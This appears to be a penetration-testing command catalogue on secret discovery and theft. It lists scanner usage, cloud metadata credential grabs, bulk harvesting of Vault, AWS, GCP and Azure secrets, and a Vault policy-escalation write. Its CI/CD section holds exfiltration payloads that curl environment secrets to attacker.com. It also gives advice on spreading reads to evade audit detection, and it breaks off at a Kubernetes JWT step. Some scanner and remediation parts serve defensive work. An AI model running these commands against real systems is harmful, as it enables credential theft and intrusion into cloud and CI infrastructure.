

# Secret Management Attack Payloads / Command Catalogue

> Companion to `SKILL.md`. Every command assumes lawful authorization, a signed scope-of-work, and explicit client approval before any live API verification. Verification of credentials generates real provider-side events (CloudTrail, GitHub audit log, Vault audit device) and must be treated as an OPSEC event.
>
> Placeholder convention: `<repo_url>` (clone URL), `<image_ref>` (`registry/image:tag`), `<vault_addr>` (`https://vault...`), `<vault_token>` (`hvs.CAES...` or `s.xxxx`), `<aws_key>` (`AKIA...`), `<gh_token>` (`ghp_...`), `<sa_token>` (K8s JWT).

---

## 1. gitleaks — Repository History & Filesystem Scanning

### 1.1 Install

```bash
# macOS
brew install gitleaks

# Linux (binary)
curl -sSfL https://github.com/gitleaks/gitleaks/releases/latest/download/gitleaks-linux-amd64 -o gitleaks
chmod +x gitleaks && sudo mv gitleaks /usr/local/bin/

# Docker
docker run --rm -v "$PWD":/repo zricethezav/gitleaks:latest detect --source=/repo
```

### 1.2 Local History Scan (OPSEC-safe)

```bash
# Mirror-clone (so --log-opts sees all refs, including dangling)
git clone --mirror <repo_url> repo-bare
cd repo-bare

# Scan all refs (branches, tags, dangling commits)
gitleaks detect --source . \
  --report-path gitleaks.json \
  --log-opts=" --all" \
  --verbose \
  --redact

# Scan a specific commit range
gitleaks detect --source . \
  --log-opts=" --all --since=2023-01-01 --until=2024-12-31" \
  --report-path gitleaks_2024.json

# Scan only specific branches
gitleaks detect --source . \
  --log-opts=" main develop release/*" \
  --report-path gitleaks_branches.json

# Output formats: json (default), csv, sarif
gitleaks detect --source . --report-format sarif --report-path gitleaks.sarif
```

### 1.3 Filesystem Scan (No Git Required)

```bash
# Scan a directory tree (e.g., a compromised host's /etc /home /opt)
gitleaks detect --source /target/dir --no-git --report-path fs_leaks.json

# Useful post-exploitation pattern
for dir in /home /etc /opt /var/log /root /srv /usr/local; do
  gitleaks detect --source "$dir" --no-git --report-path "fs_${dir//\//_}.json" 2>/dev/null
done
```

### 1.4 Custom Config (Add Proprietary Patterns)

```bash
# gitleaks.toml
cat <<'EOF' > gitleaks.toml
title = "client-custom"

[[rules]]
id = "client-internal-api-key"
description = "Client internal API key"
regex = '''client_api_key["']?\s*[:=]\s*["']?[A-Za-z0-9]{40}["']?'''
entropy = 3.5
keywords = ["client_api_key"]

[rules.allowlist]
regexes = [
  '''example|test|fake|YOUR_KEY|REPLACE_ME'''
]

[[rules]]
id = "client-vault-token"
description = "Client Vault token format"
regex = '''hvs\.[A-Za-z0-9_\-]{80,}'''
keywords = ["hvs."]
EOF

gitleaks detect --source . --config gitleaks.toml --report-path custom.json
```

### 1.5 Pre-Commit Hook Install (Defense)

```bash
# Install pre-commit framework
pip install pre-commit

# .pre-commit-config.yaml
cat <<'EOF' > .pre-commit-config.yaml
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.0
    hooks:
      - id: gitleaks
EOF

pre-commit install
pre-commit run --all-files
```

### 1.6 CI/CD Integration (Defense)

```bash
# GitHub Actions snippet
cat <<'EOF'
name: gitleaks
on: [pull_request, push]
jobs:
  gitleaks:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0   # full history
      - uses: gitleaks/gitleaks-action@v2
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
EOF
```

### 1.7 Bypassing False-Positives

```bash
# .gitleaksignore
cat <<'EOF' > .gitleaksignore
# example:known-bogus-key:1
client_api_key="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
EOF
```

---

## 2. trufflehog — Deep Secret Verification

### 2.1 Install

```bash
# macOS
brew install trufflehog

# Linux binary
curl -sSfL https://github.com/trufflesecurity/trufflehog/releases/latest/download/trufflehog-linux-amd64 -o trufflehog
chmod +x trufflehog && sudo mv trufflehog /usr/local/bin/
```

### 2.2 Git History Scan (Verification Tiers)

```bash
# Tier 1: NO verification (OPSEC-safe recon)
trufflehog git file://. \
  --no-update \
  --no-verification \
  --json \
  > trufflehog_unverified.jsonl

# Tier 2: ONLY verified secrets (live API calls — OPSEC event)
trufflehog git file://. \
  --only-verified \
  --json \
  > trufflehog_verified.jsonl

# Tier 3: filter by detector
trufflehog git file://. \
  --only-verified \
  --results=verified,unknown \
  --include-detectors=aws,github,stripe,slack,gitlab \
  --json \
  > trufflehog_filtered.jsonl

# Tier 4: scan from a specific commit
trufflehog git file://. \
  --since-commit HEAD~1000 \
  --only-verified --json
```

### 2.3 Remote Repo Scan (CAUTION — Triggers Provider Alerts)

```bash
# ONLY do this with explicit client authorization
# Trufflehog will hit GitHub's API, which has its own secret-scanning that may
# alert the repo owner that their secrets are being scanned.
trufflehog github --org=client \
  --only-verified \
  --json \
  --token=$GH_PAT
```

### 2.4 Filesystem Scan

```bash
trufflehog filesystem /target/dir --json > fs.jsonl

# Post-exploitation: dump env, scan
trufflehog filesystem --json "$(printenv | jq -R)" 2>/dev/null || \
  printenv > /tmp/env_dump.txt && \
  trufflehog filesystem --json /tmp/env_dump.txt
```

### 2.5 Docker Image Scan

```bash
# Scan a Docker image directly
trufflehog docker --image <image_ref> --only-verified --json

# Scan all images on a host
docker images --format '{{.Repository}}:{{.Tag}}' | while read img; do
  trufflehog docker --image "$img" --only-verified --json > "th_${img//[:\/]/_}.jsonl"
done
```

### 2.6 Postman Collection Scan

```bash
# Secrets embedded in Postman collections
trufflehog postman --workspace=<id> --token=$POSTMAN_KEY --only-verified
```

### 2.7 Custom Detector

```bash
# custom_detectors.yml
cat <<'EOF' > custom.yml
version: 1
detectors:
  - name: ClientCustomTokenV1
    keywords:
      - "client_token"
      - "ct_"
    regex:
      secret: 'ct_[a-zA-Z0-9]{40}'
    verify:
      - request:
          method: GET
          url: https://api.client.com/v1/verify
          headers:
            - name: Authorization
              value: 'Bearer {{.Secret}}'
        response:
          validStatusCodes:
            - 200
EOF

trufflehog filesystem --detector-weights custom.yml /target
```

### 2.8 Verify a Single Suspected Secret

```bash
# Manual verification of one secret — bypass full scan
trufflehog detector-verify aws \
  --key-id=AKIA... \
  --secret=wJalrXUtnFEMI/K7MDENG/...

# GitHub PAT — lightest-touch (no log side-effect)
curl -sI -H "Authorization: token $GH_PAT" https://api.github.com/user | head -1

# Stripe — list balance (CloudTrail equivalent: dashboard)
curl -s https://api.stripe.com/v1/balance \
  -u "$STRIPE_SK:"
```

---

## 3. semgrep — SAST Custom Rules & Registry

### 3.1 Install

```bash
pipx install semgrep
# or
brew install semgrep
```

### 3.2 Built-in Secret-Detection Ruleset

```bash
# OSS registry ruleset for secrets
semgrep --config p/secret-detection . --json -o secrets.json

# Combined: secrets + OWASP top 10
semgrep --config p/secret-detection --config p/owasp-top-ten . --json -o all.json

# Auto (lets semgrep choose)
semgrep --config=auto . --json -o auto.json
```

### 3.3 Custom Rule: Proprietary Secret

```yaml
# custom_secrets.yml
rules:
  - id: client-internal-api-key
    patterns:
      - pattern-regex: 'client_api_key\s*[:=]\s*["'']?[A-Za-z0-9]{40}["'']?'
      - pattern-not-regex: '(example|test|fake|YOUR_KEY|REPLACE_ME|xxxxx)'
    message: Client internal API key detected
    languages: [generic]
    severity: ERROR
    metadata:
      classification: secret
      rotation_owner: security-team@client.com

  - id: hardcoded-db-password
    patterns:
      - pattern-regex: '(password|passwd|pwd)\s*[:=]\s*["''](?!\s*(?:\$\{|process\.env))[^"'']{8,}["'']'
    message: Hardcoded database password
    languages: [javascript, typescript, python, java, go]
    severity: WARNING
    metadata:
      owasp: A07:2021
```

```bash
semgrep --config custom_secrets.yml . --json -o custom_findings.json
```

### 3.4 Data-Flow Tracking (Secrets Reaching Sinks)

```yaml
# dataflow_secret_leak.yml
rules:
  - id: secret-to-console-log
    mode: taint
    pattern-sources:
      - pattern-either:
          - pattern: process.env.SECRET_KEY
          - pattern: process.env.$TOKEN
    pattern-sinks:
      - pattern-either:
          - pattern: console.log($S)
          - pattern: $LOGGER.info($S)
    message: "Secret ($SOURCE) flows to a log sink"
    languages: [javascript, typescript]
    severity: ERROR
```

```bash
semgrep --config dataflow_secret_leak.yml .
```

### 3.5 Diff-Scan in CI

```bash
# Scan only changed lines in PR
semgrep --config p/secret-detection \
  --diff-depth=1 \
  --error \
  $(git diff --name-only $BASE_SHA..HEAD)
```

### 3.6 Registry Rulesets Worth Combining

```bash
semgrep --config p/secret-detection \
        --config p/aws \
        --config p/gcp \
        --config p/azure \
        --config p/github-actions \
        --config p/nodejs \
        --config p/python \
        . --json -o combined.json
```

---

## 4. bearer — Data-Flow-Aware SAST

### 4.1 Install

```bash
# macOS
brew install bearer

# Linux
curl -sSfL https://github.com/Bearer/bearer/releases/latest/download/bearer-linux-amd64 -o bearer
chmod +x bearer && sudo mv bearer /usr/local/bin/
```

### 4.2 Basic Scan

```bash
bearer scan .

# Output formats: json, yaml, sarif, html
bearer scan . --format json --output bearer.json
bearer scan . --format sarif --output bearer.sarif
```

### 4.3 Secret Detection Ruleset

```bash
# bearer ships built-in secret rules
bearer scan . --only-rule=third_parties_openai,third_parties_stripe,lang_session_fixation

# Custom rule
cat <<'EOF' > bearer.yml
custom:
  - id: client_custom_secret
    match:
      pattern: 'ct_[A-Za-z0-9]{40}'
      regex: true
    message: Custom client token found
    severity: critical
EOF
bearer scan . --config bearer.yml --external-rule-dir=.
```

### 4.4 Dataflow-Specific

```bash
# Show dataflows (source → sink)
bearer scan . --dataflow --format json | jq '.dataflows[]'

# Filter to high-severity dataflows involving secrets
bearer scan . --dataflow --severity critical,high
```

### 4.5 CI Integration

```bash
# GitLab CI snippet
bearer-scan:
  image: bearer/bearer:latest
  script:
    - bearer scan . --format gitlab-sast --output gl-sast-report.json
  artifacts:
    reports:
      sast: gl-sast-report.json
```

---

## 5. apkleaks — APK/DEX Secret Extraction

### 5.1 Install

```bash
# Requires Python 3.8+, JDK 11+
pipx install apkleaks

# Or Docker
docker run --rm -v "$PWD":/apk dwisiswant0/apkleaks -f /apk/app.apk
```

### 5.2 Basic Scan

```bash
apkleaks -f app.apk -o apkleaks.json

# JSON output structured by provider
jq '.details' apkleaks.json | jq 'keys'
```

### 5.3 Custom Pattern

```bash
# patterns.json — extends built-in
cat <<'EOF' > patterns.json
{
  "Client Custom": {
    "regexp": "ct_[A-Za-z0-9]{40}"
  },
  "Client JWT": {
    "regexp": "eyJ[A-Za-z0-9_\\-]+\\.[A-Za-z0-9_\\-]+\\.[A-Za-z0-9_\\-]+"
  }
}
EOF

apkleaks -f app.apk -o custom.json -p patterns.json
```

### 5.4 Manual DEX Inspection

```bash
# Extract DEX from APK
unzip -p app.apk classes.dex > classes.dex

# Strings — search for common secret prefixes
strings classes.dex | grep -oE "(AKIA[0-9A-Z]{16}|sk_live_[A-Za-z0-9]{24,}|ghp_[A-Za-z0-9]{36}|AIza[0-9A-Za-z_\-]{35}|xox[bao]-[A-Za-z0-9-]+)" | sort -u

# Smali decompile
apktool d app.apk -o app_src
grep -rE "(AKIA|sk_live_|ghp_|xox[abp])" app_src/

# jadx for readable Java
jadx -d app_java app.apk
grep -rE "BuildConfig\.(API_KEY|SECRET)" app_java/
```

### 5.5 Firebase google-services.json Check

```bash
# Often leaked in APK assets/
unzip -p app.apk assets/google-services.xml | \
  grep -oE 'google_api_key|google_crash_reporting_api_key|google_app_id|project_id|default_web_client_id'

# Firebase API key + URL → enumerate DB
FIREBASE_API_KEY="AIzaSy..."
FIREBASE_URL="https://client.firebaseio.com"
curl -s "$FIREBASE_URL/.json"  # vulnerable if rules are open
```

---

## 6. cariddi — Web Endpoint + Secret Crawl

### 6.1 Install

```bash
go install github.com/edoardottt/cariddi@latest
# Or grab release binary from https://github.com/edoardottt/cariddi/releases
```

### 6.2 Basic Crawl

```bash
# Crawl + extract endpoints + secrets
cariddi -u https://app.client.com -e -s

# With depth and timeout
cariddi -u https://app.client.com -d 3 -t 10 -timeout 15

# Output to file
cariddi -u https://app.client.com -e -s -o results.txt

# JSON output (for parsing)
cariddi -u https://app.client.com -e -s -json -o results.json
```

### 6.3 Custom Headers (Auth)

```bash
# Use cookies from logged-in session
cariddi -u https://app.client.com -e -s \
  -H "Cookie: session=eyJ...;" \
  -H "Authorization: Bearer ..."
```

### 6.4 Extract Specific Categories

```bash
# Only secrets (skip endpoints)
cariddi -u https://app.client.com -s -ru    # ru = remove duplicate results

# Endpoints only
cariddi -u https://app.client.com -e -ru
```

### 6.5 Pipeline: cariddi → grep → trufflehog verify

```bash
cariddi -u https://app.client.com -s -json -o cariddi.json

# Extract all candidate secrets
jq -r '.results.secrets[].secret' cariddi.json | sort -u > candidates.txt

# Verify each with trufflehog's verify mode
while read candidate; do
  trufflehog detector-verify generic --secret="$candidate" 2>/dev/null
done < candidates.txt
```

### 6.6 Complementary Tools

```bash
# katana — alternative crawler with better JS handling
katana -u https://app.client.com -jc -d 3 | grep "\.js$" | \
  xargs -I{} sh -c 'echo "=== {} ===" && curl -s "{}"' > js_dump.txt

# grep for secrets in JS bundles
grep -oE "(AKIA[0-9A-Z]{16}|sk_live_[A-Za-z0-9]{24,}|ghp_[A-Za-z0-9]{36}|AIza[0-9A-Za-z_\-]{35})" js_dump.txt

# Check for sourcemaps exposing original source
curl -s https://app.client.com/static/bundle.js.map | jq '.sources[]' | \
  grep -iE "(env|secret|config|key)"
```

---

## 7. DeepAudit — Multi-Agent AI Audit

### 7.1 Install

```bash
git clone https://github.com/YiPaOiYe/DeepAudit /opt/DeepAudit
cd /opt/DeepAudit
pip install -r requirements.txt
```

### 7.2 Run Multi-Agent Audit

```bash
# DeepAudit orchestrates multiple agents (semgrep, gitleaks, etc.) under AI control
python main.py --target ./repo --output ./deepaudit_report

# Specify LLM backend
python main.py --target ./repo --backend openai --model gpt-4o
python main.py --target ./repo --backend anthropic --model claude-3-5-sonnet
```

### 7.3 Output Review

```bash
# DeepAudit produces a structured report
ls -la deepaudit_report/
# findings.json — every issue with severity, location, agent
# summary.md — human-readable summary
# graph.json — dependency graph of findings

# Filter to secret-related findings
jq '.findings[] | select(.category=="secret")' deepaudit_report/findings.json
```

### 7.4 Custom Agent Integration

```bash
# Add a custom agent for proprietary secret patterns
cat <<'EOF' > agents/client_secret_agent.py
from deepaudit.agent import BaseAgent

class ClientSecretAgent(BaseAgent):
    name = "client_secret"
    patterns = [
        r'ct_[A-Za-z0-9]{40}',
        r'client_api_key\s*[:=]\s*["\'][^"\']+'
    ]
    def analyze(self, repo_path):
        # Walk repo, match patterns, return findings
        ...
EOF
```

---

## 8. AWS / GCP / Azure Secret Discovery

### 8.1 AWS — Metadata Service (Instance Profile)

```bash
# From an EC2 instance (or SSRF that reaches metadata)
# IMDSv1 (deprecated, vulnerable to SSRF)
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>

# IMDSv2 (requires token — still abusable via SSRF with token-fetch)
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
```

### 8.2 AWS — Verify a Leaked Key (Lightest Touch)

```bash
# STS GetCallerIdentity is the lightest-touch verification
# It IS logged in CloudTrail but does not modify any state
aws sts get-caller-identity --profile stolen

# NEVER use a stolen key to list/create/modify — every such call
# adds forensic evidence AND may trigger CloudTrail anomaly detection
```

### 8.3 AWS — Secrets Manager Enumeration

```bash
# Configure with stolen creds
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_DEFAULT_REGION=us-east-1

# List all secrets
aws secretsmanager list-secrets --output json > secrets_list.json

# Read every secret
for arn in $(jq -r '.SecretList[].ARN' secrets_list.json); do
  aws secretsmanager get-secret-value --secret-id "$arn" \
    --query 'SecretString' --output text | \
    jq -R '{arn: "'"$arn"'", secret: .}' >> harvested.jsonl
done

# SSM Parameter Store (often holds secrets too)
aws ssm describe-parameters --output json > ssm_list.json
for name in $(jq -r '.Parameters[].Name' ssm_list.json); do
  aws ssm get-parameter --name "$name" --with-decryption \
    --query 'Parameter.Value' --output text
done
```

### 8.4 GCP — Metadata Service

```bash
# GCE metadata (no token required by default)
curl -s -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# Default service account email
curl -s -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email

# Project ID
curl -s -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/project/project-id
```

### 8.5 GCP — Secret Manager

```bash
# Use stolen access token
export GCP_TOKEN=ya29...

# List projects the token can see
curl -s -H "Authorization: Bearer $GCP_TOKEN" \
  https://cloudresourcemanager.googleapis.com/v1/projects | jq '.projects[].projectId'

# For each project, enumerate Secret Manager
for project in $(<projects.txt); do
  curl -s -H "Authorization: Bearer $GCP_TOKEN" \
    "https://secretmanager.googleapis.com/v1/projects/$project/secrets" | \
    jq -r '.secrets[].name'
done

# Read each secret's latest version
curl -s -H "Authorization: Bearer $GCP_TOKEN" \
  "https://secretmanager.googleapis.com/v1/projects/$project/secrets/$secret/versions/latest:access" | \
  jq -r '.payload.data' | base64 -d
```

### 8.6 Azure — Managed Identity

```bash
# Azure IMDS — get managed identity token
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net"

# Use that token to query Key Vault
VAULT_TOKEN=...
curl -s -H "Authorization: Bearer $VAULT_TOKEN" \
  "https://<vault>.vault.azure.net/secrets?api-version=7.4"

# Read a secret
curl -s -H "Authorization: Bearer $VAULT_TOKEN" \
  "https://<vault>.vault.azure.net/secrets/<name>?api-version=7.4"
```

### 8.7 Azure — Service Principal Credential File

```bash
# Often found on compromised hosts as ~/.azure/ or in CI configs
cat ~/.azure/msal_token_cache.json
cat /etc/azure/sp.json

# Format
{
  "appId": "00000000-0000-0000-0000-000000000000",
  "tenant": "...",
  "password": "...",
  "subscriptionId": "..."
}

# Use
az login --service-principal \
  -u $APP_ID -p $PASSWORD --tenant $TENANT \
  --allow-no-subscriptions

az keyvault secret list --vault-name <vault>
az keyvault secret show --vault-name <vault> --name <secret>
```

---

## 9. HashiCorp Vault Attacks

### 9.1 Token Discovery

```bash
# Common locations for Vault tokens
ls -la ~/.vault-token
env | grep VAULT
cat /etc/vault.d/*

# Process environment — if Vault agent runs as sidecar
for pid in $(pgrep -f vault); do
  echo "=== PID $pid ==="
  cat /proc/$pid/environ | tr '\0' '\n' | grep -i vault
done

# Vault agent config files
find / -name "*.hcl" 2>/dev/null | xargs grep -l "vault\|token" 2>/dev/null
```

### 9.2 Token Introspection & Capabilities

```bash
export VAULT_ADDR=https://vault.infra.client.local
export VAULT_TOKEN=hvs.CAES...

# Whoami
vault token lookup

# Capabilities on common paths
for path in \
  secret/ \
  secret/data/ \
  secret/metadata/ \
  kv/ \
  kv/data/ \
  prod/ \
  staging/ \
  dev/ \
  pki/ \
  database/ \
  aws/ \
  gcp/ ; do
  echo "=== $path ==="
  vault token capabilities "$path" 2>&1
done
```

### 9.3 Recursive Secret Walker

```bash
#!/usr/bin/env bash
# vault_walk.sh — recursively walk every reachable path
walk_vault() {
  local path="$1"
  local listing
  listing=$(vault kv list -format=json "$path" 2>/dev/null) || return
  for key in $(echo "$listing" | jq -r '.[]'); do
    local subpath="${path%/}/$key"
    if vault kv get -format=json "$subpath" >/dev/null 2>&1; then
      echo "SECRET: $subpath"
      vault kv get -format=json "$subpath" | jq '.data.data' >> vault_harvest.json
    else
      # Treat as directory and recurse
      walk_vault "$subpath"
    fi
  done
}

walk_vault "secret/"
walk_vault "kv/"
walk_vault "prod/"
walk_vault "staging/"
```

### 9.4 Policy Escalation Attempts

```bash
# What policies does this token have?
vault token lookup -format=json | jq '.data.policies'

# Read every policy we can (some setups leak other policies)
for pol in default $(vault token lookup -format=json | jq -r '.data.policies[]'); do
  echo "=== $pol ==="
  vault policy read "$pol"
done

# Some setups allow self-policy creation
vault write sys/policies/acl/attacker policy=- <<EOF
path "*" { capabilities = ["read", "list"] }
EOF
```

### 9.5 Cubbyhole / Wrapping Abuse

```bash
# If you can intercept a wrapping token, unwrap to recover the secret
vault unwrap -format=json $WRAPPING_TOKEN

# Or force-rewrap someone else's
vault write sys/wrapping/wrap secret_to_steal=...
```

### 9.6 OPSEC Notes

```bash
# NEVER revoke a useful token — keep it alive until engagement ends
# vault token revoke $VAULT_TOKEN   # <== DO NOT DO THIS

# Every read goes to the audit device. Read-heavy patterns get flagged.
# Spread reads over time; bulk reads are an anomaly.
```

---

## 10. Infisical / Doppler / AWS Secrets Manager

### 10.1 Infisical

```bash
# Infisical uses Machine Identity tokens (st.xxx.env.proj) or Service Tokens
# Format: st.<environment>.<project>.<random>

# Universal auth token
infisical login --token st.xxx.client.prod

# Or use machine identity
export INFISICAL_TOKEN=st.xxx.machine.xxx
export INFISICAL_API_URL=https://app.infisical.com/api

# Enumerate all environments
infisical environments --token $INFISICAL_TOKEN --project=<project>

# Read all secrets in an env
infisical secrets --token $INFISICAL_TOKEN --project=<project> --env=prod --path=/

# Bulk export
infisical secrets --token $INFISICAL_TOKEN --project=<project> --env=prod \
  --format=json > infisical_prod.json

# Self-hosted Infisical
infisical secrets --token $INFISICAL_TOKEN \
  --domain=https://secrets.client.internal --env=prod
```

### 10.2 Doppler

```bash
# Doppler Service Tokens look like: dp.st.prd.xxx.xxx
export DOPPLER_TOKEN=dp.st.prd.client.xxxxx

# List projects
curl -s -H "Authorization: Bearer $DOPPLER_TOKEN" \
  https://api.doppler.com/v3/projects

# Read secrets from a config
curl -s -H "Authorization: Bearer $DOPPLER_TOKEN" \
  "https://api.doppler.com/v3/configs/secrets/download?project=client&config=prd" \
  -o doppler_prd.env

# CLI alternative
doppler secrets --token $DOPPLER_TOKEN --project=client --config=prd
```

### 10.3 AWS Secrets Manager (Revisited)

```bash
# Cross-account secret enumeration (if policies allow)
aws secretsmanager list-secrets \
  --filters Key=name,Values=prod \
  --output json

# Tag-based search (often reveals env classification)
aws secretsmanager list-secrets \
  --filters Key=tag-value,Values=production \
  --output json

# Rotation history (useful for finding recently-rotated secrets)
aws secretsmanager describe-secret --secret-id <arn> | \
  jq '.RotationsEnabled, .LastRotatedDate, .LastChangedDate'
```

### 10.4 GCP Secret Manager (Revisited)

```bash
# Bulk read
for secret in $(gcloud secrets list --format='value(name)'); do
  gcloud secrets versions access latest --secret="$secret" | \
    jq -R '{secret: "'"$secret"'", value: .}' >> gcp_harvest.json
done
```

### 10.5 Azure Key Vault (Revisited)

```bash
# Enumerate all vaults in subscription
az keyvault list --output json | jq '.[].name'

# Each vault may have: secrets, keys, certificates
for vault in $(az keyvault list --query '[].name' -o tsv); do
  echo "=== $vault ==="
  az keyvault secret list --vault-name "$vault"
  az keyvault key list --vault-name "$vault"
  az keyvault certificate list --vault-name "$vault"
done

# Read each secret
for name in $(az keyvault secret list --vault-name $vault --query '[].name' -o tsv); do
  az keyvault secret show --vault-name "$vault" --name "$name" \
    --query 'value' -o tsv
done
```

---

## 11. CI/CD Secret Theft (GitHub Actions / GitLab CI / Jenkins / CircleCI)

### 11.1 GitHub Actions — `pull_request_target` Trap

```yaml
# .github/workflows/integration.yml (VULNERABLE)
name: integration
on:
  pull_request_target:
    types: [opened, synchronize]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # attacker-controlled ref
      - run: npm ci                                         # runs attacker package.json
      - run: npm test
        env:
          PROD_DEPLOY_KEY: ${{ secrets.PROD_DEPLOY_KEY }}  # exposed to attacker code
```

**Attack**: attacker forks, modifies `package.json` to exfiltrate `process.env.PROD_DEPLOY_KEY`:

```json
{
  "scripts": {
    "postinstall": "curl -d @- https://attacker.com/ < /proc/self/environ || true"
  }
}
```

**Remediation**: never use `pull_request_target` with `secrets.*` and an attacker-controlled checkout ref. If you must use `pull_request_target`, run a label-gate job first that re-checks-out the base branch.

### 11.2 GitHub Actions — `issues` or `issue_comment` Trigger

```yaml
# Vulnerable workflow triggered by issue comments
on:
  issue_comment:
    types: [created]
jobs:
  test:
    if: contains(github.event.comment.body, '/test')
    runs-on: ubuntu-latest
    steps:
      - run: |
          # The comment body is attacker-controlled
          eval "${{ github.event.comment.body }}"
        env:
          SECRET: ${{ secrets.SECRET }}
```

**Attack**: comment `/test; curl -d $SECRET https://attacker.com/`

### 11.3 GitHub Actions — Exfil via Self-Hosted Runner

```bash
# Self-hosted runners cache secrets on disk between runs
ls -la /home/runner/.runner/
cat /home/runner/.runner/credentials.json

# Or via ACTIONS_RUNNER_DEBUG
echo "ACTIONS_STEP_DEBUG=true" >> $GITHUB_ENV  # not direct, but related variables
env | grep -i secret
```

### 11.4 GitLab CI — Masked Variable Leak

```yaml
# .gitlab-ci.yml
stages:
  - test
test:
  script:
    - env | sort > debug.log   # masks fail on multi-line / non-UTF8
    - cat debug.log
  variables:
    DEPLOY_TOKEN: $DEPLOY_TOKEN   # masked by GitLab, but only if format qualifies
```

GitLab masks variables only when they match `(?i)(gitlab_ci_token|deploy_token|...)` and meet length/charset requirements. Short or base64-with-padding tokens are NOT masked.

### 11.5 Jenkins — Credentials Binding Leak

```groovy
// Jenkinsfile
pipeline {
  agent any
  stages {
    stage('deploy') {
      steps {
        withCredentials([string(credentialsId: 'PROD_TOKEN', variable: 'TOKEN')]) {
          sh 'echo $TOKEN > /tmp/leak.txt'   // visible in build log only if echo on
          sh 'env | grep TOKEN > /tmp/env_leak.txt'
        }
        // /tmp/leak.txt persists on the Jenkins agent
        archiveArtifacts '/tmp/leak.txt'   // would expose via build UI
      }
    }
  }
}
```

```bash
# On a compromised Jenkins agent, walk known credential stores
ls -la $JENKINS_HOME/credentials.xml
cat $JENKINS_HOME/credentials.xml | xmllint --xpath '//password/text()' -

# Secrets in build logs
grep -rE "(password|secret|token)" $JENKINS_HOME/jobs/*/builds/*/log
```

### 11.6 CircleCI — Context Variable Leak

```yaml
# .circleci/config.yml
version: 2.1
jobs:
  build:
    docker: [{image: cimg/base:stable}]
    steps:
      - run:
          name: "Build"
          command: |
            # CircleCI masks variables in output, but not in artifacts
            env | grep TOKEN > /tmp/leak
            # Upload as artifact — bypasses masking
            curl -sF "file=@/tmp/leak" https://attacker.com/
```

CircleCI Context env vars are only masked in stdout/stderr — they appear in plaintext in artifacts, files written to disk, and step output that goes through specific filters.

### 11.7 Codecov Supply-Chain Reference (2021)

Codecov's bash uploader was compromised to exfiltrate environment variables from CI runs across thousands of projects. The payload targeted CI env vars that contained cloud credentials, tokens, and SSH keys. Reference: `https://about.codecov.io/security-update/`.

Defense: pin third-party CI actions/uploaders to a SHA, not a tag.

### 11.8 Generic CI/CD Recon

```bash
# Walk the filesystem of a compromised CI runner
for path in \
  /home/runner/.runner \
  /home/runner/work/_temp \
  /root/.gnupg \
  /etc/gitlab-runner \
  /etc/jenkins \
  /var/lib/jenkins \
  ~/.kube/config \
  ~/.docker/config.json \
  ~/.aws/credentials \
  ~/.npmrc \
  ~/.pypirc \
  ~/.netrc ; do
  echo "=== $path ==="
  ls -la "$path" 2>/dev/null
done
```

---

## 12. Kubernetes Secret Dump + etcd Extraction

### 12.1 Service Account Capabilities

```bash
# What can THIS service account do?
kubectl auth can-i --list

# Critical capabilities to check
kubectl auth can-i get secrets -A
kubectl auth can-i get secrets -n kube-system
kubectl auth can-i create pods -n kube-system
kubectl auth can-i exec into pods -n kube-system
kubectl auth can-i get pods -n kube-system
kubectl auth can-i get csr   # certificate signing requests → cluster-admin pivot
```

### 12.2 Secret Enumeration

```bash
# All secrets, all namespaces
kubectl get secrets -A -o json | jq '.items[] | {
  ns: .metadata.namespace,
  name: .metadata.name,
  type: .type
}'

# Decode every data key
kubectl get secrets -A -o json | jq '.items[] | {
  ns: .metadata.namespace,
  name: .metadata.name,
  data: (.data // {} | to_entries | map({key: .key, value: (.value | @base64d)}))
}'
```

### 12.3 ImagePullSecrets (Registry Creds)

```bash
# Find every docker-registry secret
kubectl get secrets -A -o json | \
  jq '.items[] | select(.type == "kubernetes.io/dockerconfigjson") | {
    ns: .metadata.namespace,
    name: .metadata.name,
    auths: (.data[".dockerconfigjson"] | @base64d | fromjson).auths
  }'

# Each auth entry has a base64-encoded "auth" = base64(user:pass)
echo "dXNlcjpwYXNz" | base64 -d   # → user:pass
```

### 12.4 Service Account Tokens (JWT)

```bash
# Every service account has an associated secret containing a JWT
kubectl get secrets -A -o json | \
  jq '.items[] | select(.type == "kubernetes.io/service-account-token") | {
    ns: .metadata.namespace,
    name: .metadata.name,
    sa: .metadata.annotations["kubernetes.io/service-account.name"],
    token: (.data.token | @base64d)
  }'

# Decode JWT
